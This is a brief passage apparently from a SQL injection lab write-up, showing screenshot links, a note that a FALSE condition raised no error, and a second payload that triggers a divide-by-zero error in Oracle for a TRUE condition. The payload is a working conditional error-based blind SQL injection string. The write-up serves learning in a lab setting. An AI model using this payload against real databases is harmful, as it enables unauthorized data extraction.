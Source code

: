 ![image](./Attachments/SQL-Lab12-1.png)
![image](./Attachments/SQL-Lab12-2.png)
We didn't get an error using `FALSE` condition. Now let's try the same for a `TRUE` condition.

2. Payload: `' AND (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a`